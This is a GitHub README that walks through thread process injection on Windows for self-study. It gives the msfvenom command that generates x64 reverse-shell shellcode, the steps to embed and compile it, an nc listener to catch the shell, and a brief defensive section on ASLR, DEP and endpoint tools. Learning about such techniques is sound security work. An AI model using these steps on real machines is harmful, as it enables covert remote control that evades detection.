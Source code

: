 # SimpleTPI

writing these materials for myself and for educational purposes .i will write long explanetion about every line of code for better understanding ..


Writing these materials for myself and for educational purposes. I will write long explanations about every line of code for better understanding.

So, what is thread process injection?

TPI is a technique that allows an attacker to inject code into a running process and create a new thread that will execute the injected code. The goal of the attacker with this technique is to take control of the process. This is often used to evade detection, as the injected code runs within the context of a legitimate process and "hides" in the stack, making it difficult for security software to detect.

I will run the script by creating a VM in my case, is Kali Linux.

In the console, we type the command below:

```
ifconfig
```
Then take the VM IP we want to use as a "hacker" machine:

```
eth: flags=8908<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 2938
    options=3<RXCSUM,TXCSUM>
    ether xx:xx:xx:xx:xx:xx 
    inet xx.xx.xxx.xx netmask 0xfff0 broadcast xx.xx.xx.xx
```
I choose to use this exploit for the reverse shell, of course, you can choose any:

```
msfvenom -p windows/x64/shell_reverse_tc LHOST=xx.xx.xxx.xx LPORT=4444 -f c
```
Then we have the shell code, and we will insert it in the line of code - shellcode[] = {`here`}


Once we have the script as shown in the screenshot above, we will change the file mode for the .exe using the command 
```
cl /Tc <filename>.cpp
```
 Then, we will switch back to the VM and listen to the specified port using the command
```
 nc -nlvp 4444
```
 We will then execute the program on our "hacker station" and we should have access.
 
 <img width="552" alt="Screenshot 2023-01-24 at 13 58 20" src="https://user-images.githubusercontent.com/122444563/214533891-c84c47b9-cf2b-4ae4-89d4-dd2e28b1e75b.png">



To verify that the process has been injected, we can use the HackerProcess tool and find the notepad.exe process Properties -> Memory -> Protection column RWX (Read, Write, Execute) and can find in the memory region the reverse shell code.

![Screenshot 2023-01-25 at 10 50 03](https://user-images.githubusercontent.com/122444563/214526424-fedc65e8-3ddd-40f6-b285-5f9486dae2e6.png)

To defend against process injection in a company, it is important to keep in mind that no single solution can completely protect against thread process injection, and it is necessary to use a combination of techniques to maximize the security of your system. Using memory protection techniques like ASLR and DEP can make it more difficult for an attacker to inject code into a running process by making it harder to predict the location of memory blocks. Additionally, endpoint security solutions can be configured to block some types of process injection based on common sequences of behavior that occur during the injection process.
_____________________
